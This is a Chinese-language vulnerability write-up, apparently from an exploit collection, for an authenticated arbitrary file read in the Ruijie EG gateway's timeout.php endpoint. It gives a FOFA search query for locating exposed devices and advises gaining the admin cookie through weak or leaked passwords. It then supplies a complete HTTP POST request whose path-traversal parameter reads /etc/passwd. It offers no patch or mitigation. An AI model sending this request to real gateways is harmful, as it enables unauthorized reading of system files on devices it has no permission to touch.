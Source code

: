 # 锐捷EG易网关timeout.php后台任意文件读取漏洞

**<font style="color:rgb(38, 38, 38);">一、漏洞简介</font>**

<font style="color:rgb(38, 38, 38);">锐捷EG易网关timeout.php后台任意文件读取漏洞 </font>

**<font style="color:rgb(38, 38, 38);">二、影响版本</font>**

锐捷 EG易网关  
**<font style="color:rgb(38, 38, 38);">三、资产测绘</font>**  
<font style="color:rgb(38, 38, 38);">●登录页面</font>

<font style="color:rgb(38, 38, 38);">fofa:</font>`app="Ruijie-EG易网关" `

![1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553.png](./img/yxrLThOg1twrBoJM/1710773302248-caa9069a-265b-44c3-8a1c-ee627b562553-724511.webp)

![1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48.png](./img/yxrLThOg1twrBoJM/1711943727100-3a29a6a6-7b50-4246-af35-4ebf47636d48-662596.png)

  
**<font style="color:rgb(38, 38, 38);">四、漏洞复现</font>**  
1通过弱口令或账号密码泄露漏洞登录后台获取cookie  


![1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c.png](./img/yxrLThOg1twrBoJM/1711298713325-517a2298-d16c-4786-a1f9-3e40836a4f8c-386082.webp)

2通过上一步获取的cookie执行命令

```plain
POST /system_pi/timeout.php?a=getFile HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Cookie: LOCAL_LANG_COOKIE=zh; RUIJIEID=bnrul7jabde55u5moo2a4q57a0; helpKey=home_sys;user=admin
X-Requested-With: XMLHttpRequest
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 22

fileName=../etc/passwd
```

![1714062449229-3cce8ba1-8f09-4704-bcf3-73117674ac5a.png](./img/yxrLThOg1twrBoJM/1714062449229-3cce8ba1-8f09-4704-bcf3-73117674ac5a-281506.png)



> 更新: 2024-06-24 11:42:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/oyykknetnegphzzm>